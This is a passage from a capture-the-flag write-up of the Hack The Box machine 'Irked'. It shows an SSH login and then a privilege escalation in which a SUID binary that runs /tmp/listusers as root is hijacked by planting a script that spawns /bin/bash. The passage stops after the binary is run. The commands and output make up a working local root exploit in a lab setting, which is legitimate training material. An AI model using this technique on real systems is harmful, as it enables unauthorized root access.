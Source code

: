 ```
bibo318@parrot:/opt$ ssh djmardov@irked.htb
djmardov@irked.htb's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$
```
grab user flag!!

# root
```console
djmardov@irked:~$ id
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
djmardov@irked:~$ sudo -l
-bash: sudo: command not found
djmardov@irked:~$ which su
/bin/su
```
I check SUID, nothing interesting except
```console
djmardov@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
```
I ran linpeas.sh, nothing really interesting so let go back to `viewuser`. `scp` and copy it to our kali to examing it more
```
bibo318@parrot:~/HTB/irked.htb$ scp djmardov@irked.htb:/home/djmardov/viewuser viewuser
```
since it is binary, let us `ltrace` to debuging it
```
bibo318@parrot:~/HTB/irked.htb$ ltrace ./viewuser 
<... system resumed> )                                         = 0
setuid(0)                                                      = -1
system("/tmp/listusers"sh: 1: /tmp/listusers: not found
```
so the script execute `/tmp/listusers`, note that the script is setuid(0) before executing it. setuid(0)=root so the plan is hijecting `/tmp/listusers` and make it to get root shell.

back to victim server. now lets modify `/tmp/listusers`
```console
djmardov@irked:/tmp$ ls
systemd-private-0ae59bc557a44e4ca3f371fafd5dfa23-colord.service-pclUZh
systemd-private-0ae59bc557a44e4ca3f371fafd5dfa23-cups.service-R92PM6
systemd-private-0ae59bc557a44e4ca3f371fafd5dfa23-rtkit-daemon.service-HMAyen
vmware-root
djmardov@irked:/tmp$ nano listusers
djmardov@irked:/tmp$ ls
listusers
systemd-private-0ae59bc557a44e4ca3f371fafd5dfa23-colord.service-pclUZh
systemd-private-0ae59bc557a44e4ca3f371fafd5dfa23-cups.service-R92PM6
systemd-private-0ae59bc557a44e4ca3f371fafd5dfa23-rtkit-daemon.service-HMAyen
vmware-root
djmardov@irked:/tmp$ cat listusers 
#!/bin/bash
/bin/bash 
djmardov@irked:/tmp$ chmod +x listusers 
djmardov@irked:/tmp$ /usr/bin/viewuser 
```